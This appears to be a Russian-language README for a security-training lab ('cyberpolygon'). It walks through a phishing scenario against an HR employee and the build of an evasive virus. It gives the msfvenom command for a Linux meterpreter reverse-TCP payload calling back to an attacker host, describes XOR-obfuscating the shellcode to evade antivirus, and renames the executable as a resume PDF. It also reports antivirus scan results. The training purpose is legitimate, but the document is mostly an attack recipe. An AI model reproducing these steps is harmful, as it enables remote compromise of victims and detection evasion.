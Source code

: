 # cyberpolygon
cyberpolygon for information security training


### Для работы стенда необходимо ввести след команды

### Сценарий

## Что делает хакер

Хакер ищет себе жертву, которой в дальнейшем отправит вредоносный файл. С помощью социальной инженерии злоумышленник находит одну компанию на hh и звонит рекрутеру. Общаясь он рассказывает, как заинтересован в работе. После их разговора, хакер обещает прислать денису на почту резюме. 
На деле же вместо резюме лежит заархивированный вредоносный файл.

## что делает hr

Кадровик Денис заходит на почту и видит примерно следующее сообщение, которое оставил ему его телефонный собеседник: 

“Здравствуйте еще раз! я заинтересован в вашей работе. Вот мое резюме” 
Его впечатлил телефонный разговор и он бежит побыстрее посмотреть его резюме.

!!!!!!!!!!!!! 

Тем временем у атакующего включен meterpreter listener и он получает оболочку , тем самым имея возможность загрузить любые файлы и выполнить любой код. 

Чем он и пользуется, закидывая hr-ру файлик hacked.txt , в котором сообщается, что тот взломан

## Описание созданного вируса

Вирус состоит из 2-х файлов : hack.c , encoder_beautiful.c 

Создадим переменную массива беззнаковых символов с именем buf, которая содержит наш шелл-код вывод в формате C из msfvenom. Это в будущем поможет нам получить оболочку и выполнять любые команды на компьютере жертвы.

Чтобы избежать обнаружения сканерами, мы замаскируем исходную строку шелл-кода. Мы можем сделать это, создав программу-кодировщик (encoder_beautiful) для выполнения операции XOR с нашей полезной нагрузкой meterpreter.

Затем мы возьмем выходные данные нашего кодировщика и заменим полезную нагрузку нашей исходной оболочки C на запутанную версию, которую мы создали. И добавим декодер XOR в нашу исходную программу на C, чтобы деобфусцировать полезную нагрузку в памяти перед ее выполнением.

#### Порядок команд для получения готового вируса

Сгенерируем 64-битный незакодированный шеллкод с помощью msfvenom с типом вывода «c» на Kali след. командой : 
msfvenom -p linux/x64/meterpreter/reverse_tcp LHOST=10.10.10.10 LPORT=443 -f c 

Скопируем char buf[] и вставим это в программу encoder_beautiful.c

Скомпилируем командой gcc encoder_beautiful.c -o encoder_beautiful.elf

запустим ./encoder_beautiful.elf - теперь это надо скопировать

Затем мы вставим char buf[] в программу на C, которая будет действовать как оболочка для загрузки и запустит шеллкод.

Скомпилировать след. командой файл hack.c

Получен готовый вирус, который необходимо закинуть жертве. Попробуем переименовать его вместо hack.elf в resume_for_hr.pdf

Настроим прослушиватель:



Запустим:


И получаем оболочку:

Результаты сканирования антивирусных систем

Анализ сканирования касперским нашего вредоносного файла hack.elf показал следующий результат :

Анализ сканирования касперским нашего вредоносного файла resume.pdf показал следующий результат :

Результат сканирования написанного вируса на virustotal :


